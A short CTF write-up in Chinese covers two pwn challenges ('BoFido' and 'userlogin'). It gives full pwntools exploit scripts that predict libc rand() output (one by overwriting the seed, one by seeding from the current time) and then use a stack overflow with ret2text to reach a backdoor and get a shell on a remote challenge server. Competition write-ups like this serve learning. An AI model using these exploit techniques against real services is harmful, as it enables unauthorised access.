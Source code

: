 # PWN

## BoFido-ucsc | FINISHED - 01

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130781.png)

随机数模拟,每次模拟三个,一共输入十次,十次都对了就给shell,甚至随机数种子可以覆盖,那就拿libc模拟

```python
from pwn import *
from ctypes import *
libc = cdll.LoadLibrary('./libc.so.6')
context.log_level='debug'
#io=process('./pwn')
io=remote("39.107.58.236",46186)
io.sendafter(b"Enter your name:",b'\x00'*0x25)
libc.srand(0)
for i in range(10):
    v10 = libc.rand() % 255
    v9 = libc.rand() % 255
    v8 = libc.rand() % 255
    io.recvuntil(b'please choose your numbers:\n')
    io.sendline(str(v10).encode()+b" "+str(v9).encode()+b" "+str(v8).encode())
io.interactive()
```

## userlogin-ucsc | FINISHED - 01

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130782.png)

仍然是采用随机数作为索引,从一个表中提取0x10个字符作为password

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130783.png)

然后如果用password登录,就有一个%s的无限溢出,还提供了后门函数

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130784.png)

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505210130785.png)

那就先随机数模拟拿到password,再登录,溢出,ret2text

注意栈平衡

```python
from ctypes import *
from pwn import *
#io=process('./pwn')
io=remote("39.107.58.236",48968)
libc = cdll.LoadLibrary('./libc.so.6')
key=b"abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"
password=b""
libc.srand(libc.time(0))
v6=63
for i in range(16):
    v5 = libc.rand() % v6
    password += key[v5].to_bytes(1, 'big')
print(password)
#gdb.attach(io)
io.sendlineafter(b"Password: ",password)
io.recvuntil(b"Note: \n")
payload=b'a'*0x28+p64(0x401265)
io.sendline(payload)
io.interactive()
```